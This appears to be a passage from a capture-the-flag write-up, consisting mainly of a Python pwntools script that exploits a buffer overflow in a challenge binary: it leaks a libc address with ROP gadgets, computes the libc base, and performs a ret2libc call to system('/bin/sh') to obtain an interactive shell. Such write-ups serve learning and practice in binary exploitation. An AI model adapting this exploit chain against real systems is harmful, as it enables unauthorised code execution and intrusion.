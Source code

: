 ```python
# Gadgets
pop_rbp_ret=0x401139#: pop rbp; ret; 
pop_rdi_ret=0x40127b#: pop rdi; ret; 
pop_rsi_r15=0x401279#: pop rsi; pop r15; ret; 
ret=0x401016#: ret;
bss=0x404010 # .bss section

# Step 1: Leaking libc address
print(f"\n\n[*] .bss @ {hex(bss)}")
offset=40
payload=b"A"*offset
payload+=p64(ret)
payload+=p64(pop_rdi_ret)
payload+=p64(0x1)
payload+=p64(pop_rsi_r15)
payload+=p64(bss)
payload+=p64(0xdeadbeef)
payload+=p64(elf.plt['write']) 
payload+=p64(elf.sym['main']) # write then go back to main


target.recvuntil("Cast spell: ")
target.sendline(payload)
x=target.recvuntil("Something").split(b'\n\n\x00')[1]
libc_leak=(u64(x[:8]))
print(f"[*] Libc_Leak of _IO_2_1_stdout_ : {hex(libc_leak)}")

# Step 2: Find libc base
libc.address=libc_leak-libc.sym['_IO_2_1_stdout_']
print(f"[*] Libc_base: {hex(libc.address)}")
shell_addr=next(libc.search(b'/bin/sh\x00'))
print("[*] Found shell at : {}".format(str(hex(shell_addr))))
print("[*] Found system at : {}".format(str(hex(libc.sym['system']))))

# Step 3: Ret2Libc
offset=40
payload=b"A"*offset
payload+=p64(ret)
payload+=p64(pop_rdi_ret)
payload+=p64(shell_addr)
payload+=p64(libc.sym['system'])

target.recvuntil("Cast spell: ")
target.sendline(payload)
target.recvuntil(b"\x00")
target.interactive()
```


![ㅤ](../../../images/PlayCyber/20240130131337.png)

### Going Remote
![ㅤ](../../../images/PlayCyber/screenshot-20240127-175634Z-selected.png)

